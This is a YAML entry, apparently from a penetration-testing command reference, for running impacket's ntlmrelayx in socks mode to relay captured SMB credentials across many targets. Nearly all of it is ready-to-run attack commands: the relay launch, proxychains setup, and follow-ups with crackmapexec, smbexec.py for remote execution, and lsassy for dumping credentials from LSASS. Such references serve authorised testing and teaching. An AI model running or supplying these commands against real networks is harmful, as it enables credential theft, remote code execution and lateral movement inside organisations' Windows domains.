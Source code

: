 ```yaml
---
title: |
  Start ntlmrelayx in socks mode to relay multiple SMB requests later on (multiple commands)
description: |
  This module performs the SMB Relay attacks originally discovered by cDc extended to many target protocols (SMB, MSSQL, LDAP, etc).
  It receives a list of targets and for every connection received it will choose the next target and try to relay the credentials. Also, if specified, it will first to try authenticate against the client connecting to us.

  Type socks to see the opened socks sessions:

  	ntlmrelayx> socks

  Edit proxychains to your ntlmrelayx IP:

  	/etc/proxychains.conf:

    socks4 <yourIP> 1080
  
  now you can relay traffic through the socks proxy e.g:

  	proxychains crackmapexec smb 10.1.0.73 -u ppaalm -p '' -d paragon

    proxychains smbexec.py -no-pass paragon/ppaalm@10.1.0.160

    proxychains lsassy 10.1.0.160 -u ppaalm -d paragon

command: |
  ntlmrelayx.py -tf targets.txt -socks -smb2support
items:
  - No_Creds
services:
  - SMB
  - LDAP
OS:
  - Linux
attack_types:
  - Enumeration
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
---
```

